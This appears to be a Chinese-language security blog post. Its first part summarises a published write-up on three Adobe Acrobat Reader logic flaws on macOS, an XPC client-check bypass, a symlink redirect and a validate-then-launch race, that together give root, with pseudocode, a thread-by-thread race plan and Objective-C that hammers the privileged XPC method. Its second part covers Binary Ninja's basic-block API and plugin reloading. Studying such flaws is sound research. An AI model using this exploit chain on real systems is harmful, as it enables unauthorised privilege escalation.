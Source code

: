 ## 0x01 三个Adobe Reader的逻辑漏洞导致LPE  

玄武大佬的[Gain-Root](https://rekken.github.io/2020/05/14/Security-Flaws-in-Adobe-Acrobat-Reader-Allow-Malicious-Program-to-Gain-Root-on-macOS-Silently/)  

> popular software with high privileged services are new good target in addition to macOS built-in services

Adobe Acrobat Reader DC有个组件负责程序的升级，root权限而且没有沙盒限制，对应名为SMJobBlessHelper的XPC服务   

#### 1. Vul01 验证绕过  

XPC的服务端只验证了客户端的BUndle ID是否为com.adobe.ARMDC，而这个值在Info.plist中，可以伪造或者直接使用已有的目录    

```oc
pid = [NSXPCConnection processIdentifier];
proc_pidpath(v7, proc_path, 0x1000u);
bundle = [NSBundle bundleWithPath:proc_path];
bd_id = [bundle bundleIdentifier];

if (bd_id == "com.adobe.ARMDC"){
    // Accept client's XPC connection request
}
```

#### 2. Vul02 symlink突破  

升级程序会将下载目录移动到/var/folders/xxxxx中，移动后，目标目录的所有者就成为了root，可以特权执行  
但是，validateBinary会使用codesign验证目录中程序的合法性，不能构造又合法又恶意的程序，除非有密码学的漏洞吧  
所以，如果validateBinary和launch的文件可控，那么就可以用正常的绕过校验，然后执行被替换的exploit  

但是普通用户没有目录的控制权，所以，很常见的vulnhub提权思路，symlink    

```OC
move("./download", "/var/folders/zz/xxxxx/T/download");

if (validateBinary("/var/folders/zz/xxxxx/T/download/ARMDCHammer")){
	launch("/var/folders/zz/xxxxx/T/download/ARMDCHammer");
}
```

作者测试发现，使用ln建立链接后，在/var/folders/目录下ls看到的就是链接文件  

#### 3. Vul03 Race   

上边的代码显示，先validateBinary在launch，所以如果控制symlink的文件，先校验正确的ARMDCHammer文件，在替换为exploit，那么exploit就会被执行  
作者全盘搜索，没有找到，后来逆向发现URL，下载得到的  

问题又来了，两个步骤的窗口太小了，在Windosws中可以使用OPLock来冻结时间，但是macOS没有这个操作  


线程一：循环替换文件  
Step 1: move /tmp/test/ARMDCHammer to /tmp/test/hello_root，
Step 2: sleep
Step 3: move /tmp/test/hello_root to /tmp/test/ARMDCHammer
Step 4: sleep and goto Step 1

线程二: 准备下载目录与符号链接  
Step 1: create /tmp/test/orig_download directory, create symlink /tmp/test/orig_download/ARMDCHammer pointing to /tmp/test/hello_root
Step 2: copy /tmp/test/orig_download to /tmp/test/download
Step 3: sleep
Step 4: goto Step 2 when /tmp/test/download disapears

线程三: 触发NSXPC DoWorkAndLauchHammer    

```
while(1){
    NSXPCConnection * connectionToService = [[NSXPCConnection alloc] initWithMachServiceName:@"com.adobe.ARMDC.SMJobBlessHelper" options: 0];
    connectionToService.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(SMJobBlessHelperProtocol)];
    [connectionToService resume];

    id remote = [connectionToService remoteObjectProxyWithErrorHandler:^(NSError *proxyError) {
        NSLog(@"error: %@", proxyError);
    }];
    [remote DoWorkAndLauchHammer: ^(_Bool retcode) {
        //
    }];
}
```

High-frequency NSXPC interface call requests which make the server busy can increase the probability of success. With multi-threads running, the race condition needs a very short time.

看起来都是很常见的思路，但是大佬能发现。。。  

## 0x02 BN的基本块操作  

看了看函数都有什么方法  
```python
>>> main = current_function
>>> dir(main)
['__class__', '__del__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_advanced_analysis_requests', '_arch', '_associated_data', '_platform', '_unregister', '_view', 'add_auto_address_tag', 'add_auto_function_tag', 'add_user_address_tag', 'add_user_code_ref', 'add_user_function_tag', 'address_tags', 'analysis_performance_info', 'analysis_skip_override', 'analysis_skip_reason', 'analysis_skipped', 'apply_auto_discovered_type', 'apply_imported_types', 'arch', 'auto', 'basic_blocks', 'call_sites', 'callee_addresses', 'callees', 'callers', 'calling_convention', 'can_return', 'clobbered_regs', 'comment', 'comments', 'create_auto_address_tag', 'create_auto_function_tag', 'create_auto_stack_var', 'create_auto_tag', 'create_auto_var', 'create_graph', 'create_tag', 'create_user_address_tag', 'create_user_function_tag', 'create_user_stack_var', 'create_user_tag', 'create_user_var', 'delete_auto_stack_var', 'delete_auto_var', 'delete_user_stack_var', 'delete_user_var', 'explicitly_defined_type', 'function_tags', 'function_type', 'get_address_tags_at', 'get_basic_block_at', 'get_block_annotations', 'get_call_reg_stack_adjustment', 'get_call_reg_stack_adjustment_for_reg_stack', 'get_call_stack_adjustment', 'get_call_type_adjustment', 'get_comment_at', 'get_constants_referenced_by', 'get_flags_read_by_lifted_il_instruction', 'get_flags_written_by_lifted_il_instruction', 'get_indirect_branches_at', 'get_instr_highlight', 'get_int_display_type', 'get_lifted_il_at', 'get_lifted_il_flag_definitions_for_use', 'get_lifted_il_flag_uses_for_definition', 'get_low_level_il_at', 'get_low_level_il_exits_at', 'get_parameter_at', 'get_parameter_at_low_level_il_instruction', 'get_reg_value_after', 'get_reg_value_at', 'get_reg_value_at_exit', 'get_regs_read_by', 'get_regs_written_by', 'get_stack_contents_after', 'get_stack_contents_at', 'get_stack_var_at_frame_offset', 'get_stack_vars_referenced_by', 'get_type_tokens', 'global_pointer_value', 'handle', 'has_variable_arguments', 'high_level_il', 'highest_address', 'hlil', 'hlil_if_available', 'indirect_branches', 'instructions', 'is_call_instruction', 'lifted_il', 'lifted_il_if_available', 'llil', 'llil_basic_blocks', 'llil_if_available', 'llil_instructions', 'low_level_il', 'lowest_address', 'mark_recent_use', 'medium_level_il', 'mlil', 'mlil_basic_blocks', 'mlil_if_available', 'mlil_instructions', 'name', 'needs_update', 'parameter_vars', 'platform', 'reanalyze', 'reg_stack_adjustments', 'release_advanced_analysis_data', 'remove_auto_address_tag', 'remove_auto_function_tag', 'remove_user_address_tag', 'remove_user_code_ref', 'remove_user_function_tag', 'request_advanced_analysis_data', 'request_debug_report', 'return_regs', 'return_type', 'session_data', 'set_auto_call_reg_stack_adjustment', 'set_auto_call_reg_stack_adjustment_for_reg_stack', 'set_auto_call_stack_adjustment', 'set_auto_calling_convention', 'set_auto_can_return', 'set_auto_clobbered_regs', 'set_auto_has_variable_arguments', 'set_auto_indirect_branches', 'set_auto_instr_highlight', 'set_auto_parameter_vars', 'set_auto_reg_stack_adjustments', 'set_auto_return_regs', 'set_auto_return_type', 'set_auto_stack_adjustment', 'set_auto_type', 'set_call_reg_stack_adjustment', 'set_call_reg_stack_adjustment_for_reg_stack', 'set_call_stack_adjustment', 'set_call_type_adjustment', 'set_comment', 'set_comment_at', 'set_default_session_data', 'set_int_display_type', 'set_user_indirect_branches', 'set_user_instr_highlight', 'set_user_type', 'stack_adjustment', 'stack_layout', 'start', 'symbol', 'too_large', 'total_bytes', 'type_tokens', 'unresolved_stack_adjustment_graph', 'vars', 'view']
```

直接得到函数的基本块，并且能够获取出边  
```python
>>> main.basic_blocks
[<block: x86_64@0x4007c6-0x4008cd>, <block: x86_64@0x4008da-0x4008f3>, <block: x86_64@0x4008cd-0x4008da>, <block: x86_64@0x4008f3-0x40093a>, <block: x86_64@0x400944-0x40094b>, <block: x86_64@0x40093a-0x400944>]
>>> dir(main.basic_blocks[0])
['__class__', '__del__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_arch', '_buildStartCache', '_create_instance', '_func', '_instLengths', '_instStarts', '_view', 'annotations', 'arch', 'can_exit', 'disassembly_text', 'dominance_frontier', 'dominator_tree_children', 'dominators', 'end', 'function', 'get_disassembly_text', 'get_iterated_dominance_frontier', 'handle', 'has_invalid_instructions', 'has_undetermined_outgoing_edges', 'highlight', 'immediate_dominator', 'immediate_post_dominator', 'incoming_edges', 'index', 'instruction_count', 'is_il', 'is_low_level_il', 'is_medium_level_il', 'length', 'mark_recent_use', 'outgoing_edges', 'post_dominance_frontier', 'post_dominator_tree_children', 'post_dominators', 'set_auto_highlight', 'set_user_highlight', 'source_block', 'start', 'strict_dominators', 'view']

>>> main.basic_blocks[0].outgoing_edges
[<TrueBranch: x86_64@0x4008da>, <FalseBranch: x86_64@0x4008cd>]
```

但是`main.basic_blocks[0].outgoing_edges[1].target = main.basic_blocks[0]`并不能修改成功   

那么可以用[xref_call_finder](https://github.com/rick2600/xref_call_finder)，加一个函数内的基本块路径，再高亮一下  

吐槽一下个人版，没有headless也就罢了，但是写插件调试是真的麻烦，虽然文档说可以reload的方式，但是。。。根本没用好么

> For the Personal edition, we recommend simply commenting out the register_ function normally used to register the plugin via whatever mechanism it uses and instead simply using the built-in Python console along with the python reload function to load new changes and test them by directly calling functions in the module. This work-around unfortunately is not supported for Binary View or Architecture plugins which unfortunately do require a restart to test if not running on Commercial. 

之前用imp.reload的方式调试脚本可以，但是重新加载插件测试失败啊  

github有[binja_reloaded](https://github.com/thebabush/binja_reloaded)，监控文件变化后reload(sys.modules[mod_name])  